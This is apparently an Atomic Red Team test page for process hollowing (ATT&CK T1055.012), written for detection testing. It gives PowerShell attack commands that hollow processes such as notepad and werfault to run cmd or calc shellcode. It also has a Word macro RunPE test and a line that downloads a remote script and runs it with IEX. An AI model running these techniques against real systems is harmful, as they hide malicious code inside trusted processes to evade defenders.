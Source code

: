 ```yaml
---
tags: [T1055_012, atomic_test]
filename: "[[T1055.012|T1055.012 - Process Injection: Process Hollowing]]"
---
```

# T1055.012 - Process Injection: Process Hollowing

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;notepad.exe|
| spawnto_process_name | Name of the process to spawn | string | notepad|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows


**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI
Creates a process in a suspended state, executes shellcode to spawn calc.exe in a child process, and then resumes the original process.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocess)

**Supported Platforms:** Windows


**auto_generated_guid:** c8f98fe1-c89b-4c49-a7e3-d60ee4bc2f5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcess.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
<br/>

## Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)
Create a process in a suspended state, execute shellcode to spawn calc.exe in a child process, and then resume the original process.
This test uses the CreatePipe function to create an anonymous pipe that parent and child processes can communicate over. This anonymous pipe
allows for the retrieval of output generated from executed shellcode.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocesswithpipe)

**Supported Platforms:** Windows


**auto_generated_guid:** 94903cc5-d462-498a-b919-b1e5ab155fee





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcessWithPipe.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
